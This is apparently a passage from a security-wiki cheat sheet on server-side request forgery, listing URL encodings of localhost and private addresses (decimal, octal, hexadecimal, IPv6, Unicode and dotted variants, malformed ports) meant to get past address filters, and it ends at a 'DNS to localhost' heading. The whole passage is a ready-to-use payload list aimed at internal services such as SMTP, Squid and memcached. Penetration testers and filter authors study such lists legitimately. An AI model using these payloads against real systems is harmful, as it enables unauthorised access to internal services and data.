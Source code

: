 {% embed url="https://discord.gg/tryhardsecurity" %}

***

### Localhost

```bash
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
http://0x7f000001/ = http://127.0.0.1
http://0xc0a80014/ = http://192.168.0.20
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# https://www.silisoftware.com/tools/ipconverter.php

# Malformed and rare
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS to localhost
```